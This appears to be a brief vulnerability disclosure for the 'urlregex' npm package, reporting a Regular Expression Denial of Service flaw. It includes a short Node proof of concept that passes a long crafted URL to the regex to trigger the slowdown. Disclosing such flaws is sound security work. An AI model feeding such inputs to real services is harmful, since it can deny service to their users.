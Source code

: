 # Overview

urlregex

> No-dependency URL validation for Node and the browser.
> This package is vulnerable to Regular Expression Denial of Service (ReDoS). An attacker providing a long string in `String.test` can cause a Denial of Service attack.

# PoC

```node
const urlRegex = require("urlregex");
const isValid = urlRegex().test(
  "http://huntr.devtestvulnerability2312321.testvulnerability2312321.testvulnerability2312321.testvulnerability2312321.testvulnerability2312321.testvulnerability2312321.testvulnerability2312321"
);
console.log(isValid);
```
